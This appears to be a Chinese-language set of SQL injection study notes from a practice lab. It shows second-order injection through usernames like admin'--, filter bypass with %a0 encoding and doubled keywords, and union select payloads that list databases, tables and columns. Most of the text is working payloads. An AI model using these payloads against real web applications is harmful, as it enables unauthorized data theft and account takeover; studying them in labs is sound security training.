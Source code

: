 在注册账户的时候加入`'--`或者`#`可以在修改密码的时候跳过密码认证直接修改

即是如：
admin'--
ADMIN' #

在查询或者改密码的时候会注释掉后面的语句从而进行绕过注入。

## **过滤了注释和空格的注入**

使用16进制编码绕过 
```html
确认字段数


?id=0%27union%a0select%a01,2,3,4%a0%26%26%a0%271%27=%271
?id=0%27union%a0select%a01,2,3%a0%26%26%a0%271%27=%271
获取当前使用的数据库


?id=0%27union%a0select%a01,database(),3%a0%26%26%a0%271%27=%271
获取表信息


?id=0%27union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema='security'%26%26%a0%271%27=%271


获取列信息
?id=0%27union%a0select%a01,group_concat(column_name),3%a0from%a0infoorrmation_schema.columns%a0where%a0table_schema='security'%a0anandd%a0table_name='emails'%26%26%a0%271%27=%271


最后获取数据，发现提取不了

?id=0%27%a0union%a0select%a01,email_id,3%a0from%a0emails%26%26%a0%271%27=%271

```

## **联合注入`union select`**
基础语句结构为--查数据库
```
a'union select 1,2,database() %23
  联合注入函数  列数  数据库  
```

- 在查询出数据库名或者信息后，根据得到的数据库名进入mysql的`information_schema.tables`信息表中查询已知数据库的表中列的信息
```sql
1)   union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --
闭合  查询函数         连接字段     表名               查询信息试图表                          数据库名称
 
```
